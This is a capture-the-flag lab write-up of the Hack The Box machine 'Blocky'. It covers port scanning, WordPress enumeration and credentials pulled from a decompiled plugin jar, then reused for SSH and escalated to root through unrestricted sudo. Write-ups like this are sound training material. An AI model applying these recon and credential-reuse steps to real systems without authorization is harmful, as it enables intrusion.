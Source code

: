 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Blocky
- Description: Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector: Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators.
- Difficulty: Easy 

## Initial Access

Nmap:
```bash
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I quickly attempt to login to ftp with anonymous access:
```bash
HTB ftp blocky.htb
Connected to blocky.htb.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (blocky.htb:kali): anonymous
331 Password required for anonymous
Password: 
530 Login incorrect.
ftp: Login failed
```

Going to the ip on the webpage redirects to blocky.htb, so I add it to my /etc/hosts file.

A quick dirsearch confirms this is wordpress:
```bash
HTB  dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e php,txt,html -f -u http://blocky.htb 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 1102725

Output File: /home/kali/.dirsearch/reports/blocky.htb/_24-01-19_08-50-02.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_08-50-02.log

Target: http://blocky.htb/

[08:50:02] Starting: 
[08:50:03] 301 -    0B  - /index.php  ->  http://blocky.htb/
[08:50:05] 403 -  291B  - /icons/
[08:50:07] 301 -  307B  - /wiki  ->  http://blocky.htb/wiki/
[08:50:07] 200 -  380B  - /wiki/
[08:50:07] 301 -  313B  - /wp-content  ->  http://blocky.htb/wp-content/
[08:50:07] 200 -    0B  - /wp-content/
[08:50:09] 200 -    2KB - /wp-login.php
[08:50:09] 301 -  310B  - /plugins  ->  http://blocky.htb/plugins/
[08:50:09] 200 -  745B  - /plugins/
[08:50:10] 200 -   19KB - /license.txt
[08:50:11] 301 -  314B  - /wp-includes  ->  http://blocky.htb/wp-includes/
[08:50:11] 200 -   40KB - /wp-includes/
[08:50:14] 301 -  313B  - /javascript  ->  http://blocky.htb/javascript/
[08:50:14] 403 -  296B  - /javascript/
[08:50:19] 200 -    7KB - /readme.html
```

Then I will wpscan while these are running:
```bash
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

Nothing really stood out besides the username notch.

Visiting the wiki endpoint I se its under construction:
![[assets/images/2024-01-19-blocky-writeup-image-1.png]]

I'll start a dirsearch in there, I'll also visit the plugins directory:

![[assets/images/2024-01-19-blocky-writeup-image-2.png]]

I see some files that seem interesting let me download them and analyze them.

I start by unzipping the file then decompiling the class

![[assets/images/2024-01-19-blocky-writeup-image-3.png]]

I see some credentials, let me see if they work on wordpress. 

![[assets/images/2024-01-19-blocky-writeup-image-4.png]]

Nope, so now I will try to ssh in:

```bash
myfirstplugin ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$
```

Boom IA
## Privilege Escalation

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 

Sorry, try again.
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch#
```

Very simple privilege escalation

## Beyond Root

One real main issue, which is leaked credentials in jar file, if that is not needed then we should delete it from the webpage. I'll go ahead and delete the jar file. 